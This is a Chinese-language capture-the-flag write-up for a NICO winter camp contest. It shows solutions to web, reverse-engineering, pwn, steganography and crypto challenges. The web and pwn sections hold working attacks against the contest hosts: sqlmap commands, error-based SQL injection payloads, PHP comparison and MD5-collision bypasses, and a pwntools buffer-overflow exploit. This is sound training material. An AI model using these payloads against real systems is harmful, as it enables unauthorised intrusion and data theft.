

# NICO冬令营第一次比赛

## web1

```php
<?php
//author: Elaine

include('./flag.php');
highlight_file(__FILE__);

$admin = 'false';
$guest = 'true';
extract($_GET); # 读取传入数据的变量

if (md5($admin) == md5($guest)) {
    echo $FLAG;
} else{
    echo "nonono!";
}
?>
```

这题相对简单，因为`extract`函数可以覆盖原有变量的数据，所以选择`$admin`和`$guest`两个变量其中一个的值覆写一下，让判断为真就可以了：


## S^_^Q^_^L

通过抓包，可以发现请求是通过POST传输的，那么先祭出`sqlmap`测试一下


```shell
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form
```


可以看出`sqlmap`检测出了可注入，那么测试一下自动注入：

```shell
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form --dbs
```


可以看出注入点存在，但是`sqlmap`无法实现自动注入，那么尝试手注：

```php
tt=1'and extractvalue(1,concat(1,(select user()))) %23
```



```php
tt=1'and extractvalue(1,concat(1,(select database()))) %23
```


由此已经得到了一个数据库：`error_sql`，接下来爆出库内的表名：

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='error_sql'))) %23
```


那么已经知道库内有两个表：`data`,`flag_here`，接着爆`flag_here`:

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag_here'))) %23
```


那么只需爆出`data`的数据就好了：

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(data) from flag_here))) %23
```


但是比较糟糕，报错信息限制了数据的显示，那么采取分段显示：

```php
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),1,16) from flag_here))) %23
```


```php
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),17,21) from flag_here))) %23
```


得到了flag：NICO{eRr0r_inJect10n_1s_in7er35tin9!}

## level ?

level1：

```php
<?php
//here is level1
    error_reporting(0);
    include "str.php";
    if (isset($_GET['txw4ever'])){
        if (substr_count($_GET['txw4ever'],'1')>0){
            die("level 1 failed ...");
        }
        if ($_GET['txw4ever'] == 1){
            echo "next: ".$level2;
        }
    }
    else{
        show_source(__FILE__);
    }
```

这里要实现`$txw4ever`字符里面不含有1，但是数值表达上等于1，就会想到传无限接近于1：

```url
http://121.37.5.94:8310/?txw4ever=0.99999999999999999999
```


level2:

```php
<?php
//here is level2
    error_reporting(0);
    include "str.php";
    if (isset($_POST['jitanglailo'])){
        $chuanshanjia = $_POST['jitanglailo'];
        if ($chuanshanjia == md5($chuanshanjia)){
            echo $level3;
        }
        else{
            die("level 2 failed ...");
        }
    }
    else{
        show_source(__FILE__);
    }
```

这里是md5的弱对比，那么就想到构造0e开头的字符串：

```php
jitanglailo=0e215962017
```


level3：

```php
<?php
//here is level3
    error_reporting(0);
    include "str.php";
    if (isset($_POST['arr1']) && isset($_POST['arr2'])){
        $a1 = (string)$_POST['arr1'];
        $a2 = (string)$_POST['arr2'];
        if ($a1 == $a2){
            die("????");
        }
        if (md5($a1) === md5($a2)){
            echo $level4;
        }
        else{
            die("level 3 failed ...");
        }

    }
    else{
        show_source(__FILE__);
    }
?>
```

这里md5的值用上了===对比符，只能考虑强碰撞。考虑数据传输完整性，采用Burp来POST数据：

```text
POST http://121.37.5.94:8310/LevEl3.php HTTP/1.1
Host: 121.37.5.94:8310
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1027

arr1=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1Bih%D3%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8U%7C%3Dm%89%DB%11%B7%BFkr%84.%01h%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%96F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%94%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9d%84%B2%F1%03&arr2=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1BihS%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8%D5%7C%3Dm%89%DB%11%B7%BFkr%84.%01%E8%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%16F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%14%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9%E4%84%B2%F1%03
```


level4:

```php
<?php
//here is last level
    error_reporting(0);
    include "str.php";
    show_source(__FILE__);

    $str = parse_url($_SERVER['REQUEST_URI']);
    if($str['query'] == ""){
        echo "give me a parameter";
    }
    if(preg_match('/ |_/',$str['query'])){
        die("blacklist here");
    }
    if (substr_count($str['query'],'.') > 1){
        die("i know you");
    }
    if($_GET['NI_CO_'] === "try-your-best!"){
        die($flag);
    }
    else{
        die("level 3 failed ...");
    }

?>
```

可以看出这题的黑名单比较薄弱，直接url编码就可以绕过：

```url
http://121.37.5.94:8310/lEvEl_4.php?NI%2eCO%2e=try-your-best!
```


得到了flag：NICO{phP_1s_R3alLy_Go0d!}

## re1

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // rax
  int i; // [rsp+5Ch] [rbp-4h]

  _main();
  for ( i = 0; i <= 27; ++i )
  {
    v3 = flag;
    flag[i] ^= 0x2Cu;
  }
  return (int)v3;
}

.data:0000000000403020 flag            db 4Ah, 40h, 4Dh, 4Bh, 57h, 5Bh, 49h, 40h, 4Fh, 43h, 41h
.data:0000000000403020                                         ; DATA XREF: main+1C↑o
.data:0000000000403020                                         ; main+32↑o
.data:0000000000403020                 db 49h, 58h, 43h, 58h, 44h, 49h, 62h, 65h, 6Fh, 63h, 6Fh
.data:0000000000403020                 db 78h, 6Ah, 51h, 17h dup(0)
.data:0000000000403050                 align 20h
.data:0000000000403060                 public _charmax
```

IDA逆向后main函数清晰明了，只需将`flag`中的数据提取出来，并做异或计算就可以了。

```python
data = [0x4A, 0x40, 0x4D, 0x4B, 0x57, 0x5B, 0x49, 0x40, 0x4F, 0x43, 0x41, 0x49,  0x58, 0x43, 0x58, 0x44, 0x49, 0x62, 0x65, 0x6F, 0x63, 0x6F, 0x78, 0x6A, 0x51]
for letter in data:
    print(chr(letter^0x2C),end="")
# flag{welcometotheNICOCTF}
```

## re2 

```assembly
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x7b67616c66    # {galf
xor [rsp], rax
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax
syscall
mov rdi, rax
xor eax, eax /* SYS_read */
mov rdx, 0x101010101010101 /* 32765899414923635 == 0x746869735f6973 */   # this_is
push rdx
mov rdx, 0x1756968725e6872
xor [rsp], rdx
pop rdx
mov rsi, rsp
syscall
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x7d6d73615f615f   # }msa_a_
xor [rsp], rax 
mov rsi, rsp
push 1
pop rdi
push 0x64
pop rdx
push SYS_write /* 1 */
pop rax
syscall
```

只能说靠misc手的直觉做的，学长说是小端序混淆，但是我汇编还没学。。

flag{this_is_a_asm}

## re3

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v1[2]; // [rsp+20h] [rbp-20h] BYREF
  unsigned int key[4]; // [rsp+30h] [rbp-10h] BYREF

  _main();
  key[0] = 268505089;
  key[1] = 537010178;
  key[2] = 805515267;
  key[3] = 1074020356;
  v1[0] = 1168614495;
  v1[1] = 25276341;
  tea(v1, key);
  return 0;
}
void __cdecl tea(unsigned int *v, unsigned int *key)
{
  int i; // [rsp+0h] [rbp-10h]
  unsigned int sum; // [rsp+4h] [rbp-Ch]
  unsigned int r; // [rsp+8h] [rbp-8h]
  unsigned int l; // [rsp+Ch] [rbp-4h]

  l = *v;
  r = v[1];
  sum = 0;
  for ( i = 0; i <= 31; ++i )
  {
    sum -= 1640531527;
    l += (((r >> 5) ^ (16 * r)) + r) ^ (key[sum & 3] + sum);
    r += (((l >> 5) ^ (16 * l)) + l) ^ (key[sum & 3] + sum);
  }
  *v = l;
  v[1] = r;
}
```

~~这题大修大补啊~~

简单看计算逻辑，就是TEA分块加密的流程。编写解密算法的时候，注意括号位置和decrypt函数的sum记为delta*32：

```c
#include <iostream>

void decrypt(unsigned int *v, unsigned int *k);

int main() {
    unsigned v1[2];
    unsigned key[4];
    key[0] = 268505089;
    key[1] = 537010178;
    key[2] = 805515267;
    key[3] = 1074020356;
    v1[0] = 1168614495;
    v1[1] = 25276341;
    decrypt(v1, key);
    std::cout << v1[0] << "  " << v1[1];
    return 0;
}

void decrypt(unsigned int *v, unsigned int *key) {
    unsigned int delta = 0x9e3779b9;
    unsigned int l = v[0], r = v[1], sum = delta * 32;
    // std::cout << sum << std::endl;
    for (int i = 0; i < 32; i++) {
        r -= (((l >> 5) ^ (16 * l)) + l) ^ (key[sum & 3] + sum);
        l -= (((r >> 5) ^ (16 * r)) + r) ^ (key[sum & 3] + sum);
        sum -= delta;
    }
    v[0] = l;
    v[1] = r;
}
// 1313424207  1499022419
```

接着转换一下：

```text
raw --> 1313424207  1499022419
HEX --> 4E49434F    59594453
Str --> NICO        YYDS
```

flag{NICOYYDS}

## re4

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int result; // eax
  int v6; // eax
  int v7; // eax
  int v8; // eax
  int v9; // eax
  int in[1000]; // [rsp+20h] [rbp-60h] BYREF
  int bin[1000]; // [rsp+FC0h] [rbp+F40h]
  int r; // [rsp+1F64h] [rbp+1EE4h]
  int seed; // [rsp+1F68h] [rbp+1EE8h]
  int m; // [rsp+1F6Ch] [rbp+1EECh]
  int n; // [rsp+1F70h] [rbp+1EF0h]
  int giao; // [rsp+1F74h] [rbp+1EF4h]
  int j; // [rsp+1F78h] [rbp+1EF8h]
  int t; // [rsp+1F7Ch] [rbp+1EFCh]
  int num; // [rsp+1F80h] [rbp+1F00h]
  int count; // [rsp+1F84h] [rbp+1F04h]
  int a; // [rsp+1F88h] [rbp+1F08h]
  int i; // [rsp+1F8Ch] [rbp+1F0Ch]

  _main();
  i = 0;
  memset(in, 0, sizeof(in));
  count = 0;
  num = 0;
  giao = 5;
  system("cls");
  n = strlen(s);
  m = strlen(s) / 3;
  seed = time(0i64);
  srand(seed);
  r = rand() % 10;
  printf("%d\n", (unsigned int)r);
  if ( !(r % 3) )
  {
    while ( s[i] )
    {
      for ( a = 7; a >= 0; --a )
        bin[count++] = (s[i] >> a) & 1;
      ++i;
    }
    for ( num = 0; 8 * n / 6 > num; ++num )
    {
      t = 1;
      for ( j = giao; giao - 5 <= j; --j )
      {
        in[num] += t * bin[j];
        t *= 2;
      }
      giao += 6;
    }
    for ( i = 0; i < num; ++i )
    {
      for ( j = 0; j <= 63; ++j )
      {
        if ( in[i] == j )
          putchar(box[j]);
      }
    }
  }
  if ( r % 3 == 2 )
  {
    while ( s[i] )
    {
      for ( a = 7; a >= 0; --a )
        bin[count++] = (s[i] >> a) & 1;
      ++i;
    }
    v3 = count++;
    bin[v3] = 0;
    v4 = count++;
    bin[v4] = 0;
    for ( num = 0; 8 * n / 6 + 1 > num; ++num )
    {
      t = 1;
      for ( j = giao; giao - 5 <= j; --j )
      {
        in[num] += t * bin[j];
        t *= 2;
      }
      giao += 6;
    }
    for ( i = 0; i < num; ++i )
    {
      for ( j = 0; j <= 63; ++j )
      {
        if ( in[i] == j )
          putchar(box[j]);
      }
    }
    printf("0x3d");
  }
  result = 3 * (r / 3);
  if ( r % 3 == 1 )
  {
    while ( s[i] )
    {
      for ( a = 7; a >= 0; --a )
        bin[count++] = (s[i] >> a) & 1;
      ++i;
    }
    v6 = count++;
    bin[v6] = 0;
    v7 = count++;
    bin[v7] = 0;
    v8 = count++;
    bin[v8] = 0;
    v9 = count++;
    bin[v9] = 0;
    for ( num = 0; 8 * n / 6 + 1 > num; ++num )
    {
      t = 1;
      for ( j = giao; giao - 5 <= j; --j )
      {
        in[num] += t * bin[j];
        t *= 2;
      }
      giao += 6;
    }
    for ( i = 0; i < num; ++i )
    {
      for ( j = 0; j <= 63; ++j )
      {
        if ( in[i] == j )
          putchar(box[j]);
      }
    }
    result = printf("0x3d0x3d");
  }
  return result;
}
```

只能说变量名太怪了。。但是有以下两个特征：

1.   程序对`r % 3`这个计算值做了分情况处理，符合base计算逻辑
2.   String Window 里面发现了疑似索引表：LMNOPQRSTUVWXABCDEFGHIJKYZabcdetuvwxfghijklmnopqrsyz0123456789+/

检查程序结构，发现以下数据

```c
.data:0000000000404080 ; char box[64]
.data:0000000000404080 box             db 'LMNOPQRSTUVWXABCDEFGHIJKYZabcdetuvwxfghijklmnopqrsyz0123456789+/'
.data:0000000000404080                                         ; DATA XREF: main+28D↑o
.data:0000000000404080                                         ; main+486↑o ...
    
.data:0000000000404020 ; char s[80]
.data:0000000000404020 s               db 47h, 66h, 67h, 4Fh, 47h, 31h, 55h, 51h, 48h, 31h, 4Dh
.data:0000000000404020                                         ; DATA XREF: main+67↑o
.data:0000000000404020                                         ; main+79↑o ...
.data:0000000000404020                 db 4Eh, 44h, 49h, 41h, 51h, 40h dup(0)
.data:0000000000404070                 align 20h
```

故按照变异base64的逻辑，编写以下解密程序：

```python
import base64
data=[0x47, 0x66, 0x67, 0x4F, 0x47, 0x31, 0x55, 0x51, 0x48, 0x31, 0x4D,0x4E, 0x44, 0x49, 0x41, 0x51, 0x40]
str1=""
for letter in data:
    str1+=chr(letter)
dic_1 = "LMNOPQRSTUVWXABCDEFGHIJKYZabcdetuvwxfghijklmnopqrsyz0123456789+/"
dic_2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
a = str1.translate(str.maketrans(dic_1, dic_2))  
print(base64.b64decode(a).decode())  # base64解码
```

flag{NICORESPBASE}

## pwn1

首先先检查一下保护：

```shell
[*] '/home/randark/pwn1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

基本就是赤裸裸的，看一下反汇编的结果：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char src[68]; // [esp+0h] [ebp-48h] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  puts("stack");
  __isoc99_scanf("%50s", src);
  vuln(src);
  return 0;
}

int __cdecl vuln(char *src)
{
  char dest[40]; // [esp+0h] [ebp-28h] BYREF

  strcpy(dest, src);
  return puts("get!");
}
```

运行时，用户的输入不能直接溢出，但是当执行`strcpy`时，过量的数据会导致`dest`溢出，也就是可利用点：

```python
import pwn
pwn.context.log_level = 'debug'
p=pwn.remote("124.71.97.27",10000)
backdoor_addr=0x080485dd
payload='a'.encode()*(40+4)+pwn.p32(backdoor_addr)

p.sendline(payload)
p.interactive()
```

由此，便可以造成数据溢出，便可以执行后门函数：


flag{6d14fb97-deac-44a4-b9be-a50f235fcac3}

## Double Happiness 					

首先，附件加上`.zip`后缀，让`010 Editor`能够识别：


初步判断是伪加密，加密位设置为0之后尝试解压成功，得到：


再次使用`010 Editor`打开，发现报校验错误，判断是高度被修改，不做crc修复，直接改长度：


顺利得到flag：


## upside down QR 		

解压后得到：			


直接拼图还原一条龙，得到：


扫描即可得到flag

## WeakPassword

首先是压缩包有密码，暴力破解和弱密码同时进行，得到密码为`nico`，解压后得到：


用`stegdetect`检测，并爆破解密密码：

```shell
$ stegdetect -tjopi -s 10.0 weakpassword.jpg
weakpassword.jpg : jphide(**)
$ stegbreak -f top1000.txt -t p . weakpassword.jpg
Loaded 2 files...
weakpassword.jpg : jphide[v5](12345)
./weakpassword.jpg : jphide[v5](12345)
Processed 2 files, found 2 embeddings.
Time: 0 seconds: Cracks: 20,      inf c/s
```

用JPHS解密，得到flag：


NICO{GuLf_WeLc0mE_Y0U}

## Univirginia

首先是ASCII编码转换，得到：

```text
AQEC{7u1a_kg_gp3_hWaiN_t14t}
```

联想题目，使用维吉尼亚解密，结合工具，解密密钥为nico，方向加密，密钥为nsym，都能解密：


## Family meals

首先就是社会主义核心价值观解密，得到：

```text
;Lj2\,.t#?TqkTAH6k\v&W*@.cj??M]W-c/$=#-LOnX?%e%l@@%cEk1an+Y&<5]hAH<Dv50.KEF.TxUr8V^tD)X!Evh.jgawK5/tbrYjs<<s>zRT<1EZ5xY{[fh(VG{-<m;i7]*\t5<|=ZXQ4ERV_-a+J}Cs?L(b:B22|1WqxIho%trQ2}/WvRa:Uvjok}O]=5$T]?,)hvH.XB9Q@>S's\2vbGC7A^XM/iSly<\yOpMiSj-n5ku4,
```

然后用`basecrack`爆破：

```shell
[-] Total Iterations: 6
[-] Encoding Pattern: Base92 -> Ascii85 -> Base91 -> Base32 -> Base64 -> Base16
[-] Magic Decode Finished With Result: NICO{7rfc_T1g5v8_oYP9M_UNwdg9}
[-] Finished in 0.0036 seconds
```

## A Kind of Symmetric Encryption 

第一行数据：


第二行数据：


整理数据如下：

```text
Key:  32f8869cd0a99d86
IV:   809fb3ab35095c21
Salt: 31b0cc4c4ac61501
Ciphertext:856118dafb7fb1a9e4b2fe33582a9b7341f46edebb55dbbdb97ce003953df871
```

然后根据题目信息，发现是DES密码：


得到flag。
